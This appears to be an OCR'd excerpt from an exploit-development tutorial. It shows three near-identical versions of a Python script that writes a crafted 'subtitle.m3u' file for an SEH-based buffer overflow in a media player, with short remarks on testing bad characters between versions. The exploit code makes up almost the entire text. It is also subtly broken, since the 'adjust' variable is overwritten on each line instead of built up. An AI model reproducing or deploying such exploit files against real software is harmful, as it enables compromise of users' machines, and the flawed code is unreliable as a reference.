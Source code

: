 #!/usr/bin/python
junk  = "\\x41" \* 4078
nseh = "\\x61\\x62"
seh = "\\xeb\\x46" \* 2
adjust = "\\x53" # PUSH EBX
adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
                         # after the \\x53 instruction in memory
adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\\x62" # NOP padding
adjust = "\\x50" # PUSH EAX to push eax to the stack...
adjust = "\\x62" # NOP padding
adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\\x62" \* 12
junk2  =  "\\x09\\x0a\\x0b\\x0c\\x0d\\x0e"

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

Woops. Still a problem. Split it up again.


> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x09\\x0a\\x0b"
> #\\x0c\\x0d\\x0e
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()

Still a problem. Try again with just \\x09\\x0a?



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x09\\x0a"
> #\\x0b\\x0c\\x0d\\x0e
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()